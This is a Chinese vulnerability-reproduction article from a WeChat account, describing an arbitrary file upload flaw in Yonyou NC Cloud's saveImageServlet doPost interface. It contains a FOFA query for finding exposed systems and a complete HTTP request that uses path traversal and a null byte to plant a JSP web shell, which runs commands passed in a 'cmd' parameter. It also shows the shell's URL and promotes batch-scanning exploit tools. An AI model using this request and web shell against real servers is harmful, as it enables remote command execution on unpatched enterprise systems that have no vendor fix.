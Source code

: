 #  用友NC Cloud doPost接口存在任意文件上传漏洞2   
南风徐来  南风漏洞复现文库   2024-04-18 23:15  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友NC Cloud简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。用友NC Cloud doPost接口存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSUmM4pNJupKxGxtFd7YrOPjamd9kkGH2BPmxNlo35U1D6tng0AvZ7jDg/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友NC Cloud doPost接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="用友-UFIDA-NC"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../tteesstt.jsp%00  
  
漏洞数据包：  
```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../tteesstt.jsp%00 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/octet-stream
Content-Length: 313

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSU778Ex6sRaUWPkhzdxsibPMnwcEX5E2tYDzich8HZG4sIjuW5GHT0APXQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传后的路径为：http://127.0.0.1/portal/processxml/tteesstt.jsp?cmd=ipconfig  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSU0DicyW06H1DtklWaMrfo0EY0jjzZLhz3QLXUb3bjNpBLG4xjfgukjEg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSUsGoEGwy6f82n9hMSfkWtibx26lxrN81o6dLyGtqbd2thwHr6QKCruiaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSU4hibYCUR6IWAoUrL1d4UBQmz9guzPEG82uOy0cX3UqGITUJI1m6Llqg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSUaosgnED2xjSaQL7wlckuP0k4KdYHRvzoVt0cHCx9oZGPFpoZ2Y8nAg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSUokfmj1g0lYHptkSorDPb8icNPl95p8Yuj2zS9ibZOoenfTwMLSa29xzA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSUIokXL62cvOxib7w4GR4x1iaXicpiadiclLVrxFBX0OzlCTjCwpmkFmXYSXQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bpxjhEiajmeumKOs4Qd7oSUkTfiank1FNUGoSBhxzYIRwPTvYJ9DtVia784ZnJHNWZjXgQjsiajMSyTg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
## 8.往期回顾  
  
[泛微e-office系统ajax.php接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486198&idx=1&sn=971121723b24414642a6efd672c22ecc&chksm=974b87f1a03c0ee7675fb34a06913c10ca977fd6f9a1158a1bd19af1641fe16ffb2d6ec86e65&scene=21#wechat_redirect)  
  
  
[魔方网表mailupdate.jsp接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486185&idx=1&sn=1e454d13e5415d343d126acc74b85954&chksm=974b87eea03c0ef841b66c87ea913d064f5a4b490c58b1f37794b9464070a744df5c0e551266&scene=21#wechat_redirect)  
  
  
  
  

